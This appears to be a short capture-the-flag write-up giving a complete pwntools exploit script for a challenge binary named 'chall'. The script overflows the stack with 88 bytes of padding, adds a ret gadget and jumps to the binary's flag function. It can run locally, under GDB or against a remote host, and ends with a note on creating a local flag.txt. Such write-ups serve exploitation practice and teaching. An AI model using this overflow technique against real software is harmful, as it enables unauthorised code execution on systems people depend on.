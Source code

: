 # Final Exploit
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './chall'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
#padding = 24


payload = flat(
    b'A' * 88,
    p64(0x0000000000401016),
    elf.functions.flag # 0x401142
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)


# Receive the flag
io.interactive()

```
make flag.txt in your local, echo"your flag" > flag.txt

run

<img width="795" alt="image" src="https://github.com/Langhere/WriteUpCTFlocal/assets/142018203/2f964628-c928-4dab-a4f9-dbf733c0e482">

has pwned
